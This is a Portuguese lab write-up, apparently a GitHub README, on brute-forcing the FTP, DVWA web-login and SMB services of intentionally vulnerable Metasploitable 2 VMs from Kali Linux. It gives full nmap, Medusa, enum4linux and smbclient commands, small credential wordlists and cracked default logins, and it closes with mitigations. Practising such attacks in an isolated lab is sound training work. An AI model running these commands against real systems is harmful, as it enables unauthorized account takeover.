

# 🔐 Projeto: Simulação de Ataques de Força Bruta com Kali Linux e suas ferramentas no Metaspoitable 2.

## Objetivo
Este projeto prático teve como objetivo implementar e documentar ataques simulados de força bruta utilizando o Kali Linux e a ferramenta Medusa contra alvos vulneráveis (Metasploitable 2 e Damn Vulnerable Web App - DVWA). O foco foi exercitar a compreensão das vulnerabilidades e propor medidas de mitigação.

## Configuração do Ambiente
O ambiente de teste foi configurado utilizando máquinas virtuais (VMs) no VirtualBox, conectadas por uma rede Host-Only para simular um ambiente isolado.

* Atacante: Kali Linux
* Alvos Vulneráveis: Metasploitable 2 e DVWA.

O escaneamento inicial do ambiente foi realizado com o nmap para identificar os IPs ativos e os serviços abertos nas máquinas alvo, confirmando a acessibilidade e a superfície de ataque.

---

## 🛠️ Comandos Utilizados por Categoria

Abaixo estão todos os comandos utilizados durante a fase prática do desafio, documentados para referência técnica:

🔍 Fase de Reconhecimento
📡 Descoberta de IPs ativos

nmap -v -sn 192.168.56.100-200 | grep 192

🔎 Scan de portas abertas

nmap -sV -p 21,22,80,445,139 192.168.0.5

🧠 Scan avançado com fingerprinting

sudo nmap -A 192.168.0.5

🔓 Ataques de Força Bruta
1️⃣ FTP com Medusa

echo -e "user\nmsfadmin\nadmin\nroot" > users.txt
echo -e "123456\npassword\nqwerty\nmsfadmin" > pass.txt

medusa -h 192.168.0.5 -U users.txt -P pass.txt -M ftp -t 6
Resultado: Acesso obtido com msfadmin:msfadmin

2️⃣ Web Form (DVWA)

medusa -h 192.168.0.5 -U users.txt -P pass.txt -M http \
-m PAGE:'/dvwa/login.php' \
-m FORM:'username=^USER^&password=^PASS^&Login=Login' \
-m 'FAIL=Login Failed' -t 6

Resultado: Vários logins válidos identificados

3️⃣ SMB + Password Spraying

echo -e "user\nmsfadmin\nservice" > smb_users.txt
echo -e "password\n123456\nWelcome123\nmsfadmin" > senhas_spray.txt

medusa -h 192.168.0.5 -U smb_users.txt -P senhas_spray.txt -M smbnt -t 2 -T 50
Resultado: Acesso SMB com msfadmin:password

📁 Enumeração de Serviços
🔍 Enumeração SMB

enum4linux -a 192.168.0.5 | tee enum4_output.txt
less enum4_output.txt

📂 Listagem de compartilhamentos
smbclient -L //192.168.0.5 -U msfadmin

📸 Evidências

Inclua capturas de tela organizadas na pasta /images com:
Resultados do Nmap

Ataques Medusa com [SUCCESS]

Acesso ao DVWA

Enumeração SMB

---

## Evidências e Documentação dos Ataques (Ordem Numérica)

### 1. Configuração e Escaneamento Inicial

As imagens documentam a configuração das máquinas virtuais, os endereços IP utilizados e o escaneamento de portas via Nmap.

* MS1.jpg: Escaneamento Nmap detalhado do ambiente e serviços abertos (SSH, FTP, HTTP, SMB).
    

* MS2.jpg: Configurações de IP e testes iniciais no Kali Linux, incluindo tentativas de instalação de add-ons do VirtualBox.
    

* MS3.jpg: Criação das wordlists de usuários (users.txt) e senhas (pass.txt) e uma tentativa inicial de login via FTP.
    

* MS4.jpg: Medusa encontrando sucesso nas credenciais do FTP e validação do login.
    

### 2. Continuação dos Ataques e Resultados

As imagens a seguir mostram a continuação dos testes, incluindo a validação de credenciais encontradas e a preparação para o ataque web (DVWA).

* MS5.jpg: Demonstração de comandos para validação de credenciais encontradas, como `login successful`.
    

* MS6.jpg: Captura de tela detalhada da varredura de portas e serviços abertos via Nmap, confirmando alvos.
    

* MS7.jpg: Demonstração da configuração de rede na máquina Windows e comandos de shell, preparando o ambiente para o ataque.
    

### 3. Ataque de Força Bruta contra Aplicação Web (DVWA)

Ataque direcionado ao formulário de login no DVWA (Damn Vulnerable Web App).

* MS8.jpg: Página do DVWA (Módulo Brute Force) e inspeção do tráfego HTTP para mapeamento dos campos de login.
    

* **MS9.jpg:** Execução do Medusa com o módulo HTTP (`-M http`), com parâmetros para mapear o formulário (`-m PAGE`/`-m FORM`) e o sucesso na descoberta das credenciais.
    

### 4. Enumeração e Password Spraying contra SMB

Ataque visando o serviço SMB (Samba) do Metasploitable 2, utilizando a técnica de password spraying.

* MS10.jpg: Resultado da enumeração de grupos e usuários no Metasploitable 2.
    

* MS11.jpg: Mapeamento da rede e enumeração do Workgroup do Metasploitable 2.
    

* MS12.jpg: Execução do Medusa com o módulo SMB (`-M smbnt`), utilizando uma wordlist curta (`senhas_spray.txt`) e sucesso na descoberta de credenciais.
    

* MS13.jpg: Validação do acesso aos compartilhamentos SMB utilizando smbclient com a credencial encontrada.
    

---

## Vulnerabilidades e Mitigações Propostas

Os ataques demonstraram a eficácia da força bruta quando as seguintes vulnerabilidades estão presentes:

* Senhas Fracas/Padrão: Implementar uma política de senhas fortes (comprimento mínimo, caracteres especiais e complexidade) e forçar a mudança de credenciais padrão.
* Ausência de Bloqueio de Tentativas: Implementar mecanismos de rate limiting e bloqueio de contas/IPs temporariamente após um número limitado de tentativas de login.
* Enumeração de Usuários: Restringir o acesso de usuários não autenticados à enumeração de contas e grupos.

## Conclusão e Aprendizados:
O projeto demonstrou a importância das práticas de segurança defensiva, como credenciais robustas e mecanismos de bloqueio. A ferramenta Medusa se provou eficaz para testar a resiliência de diferentes protocolos (FTP, HTTP, SMB) em ambientes controlados.
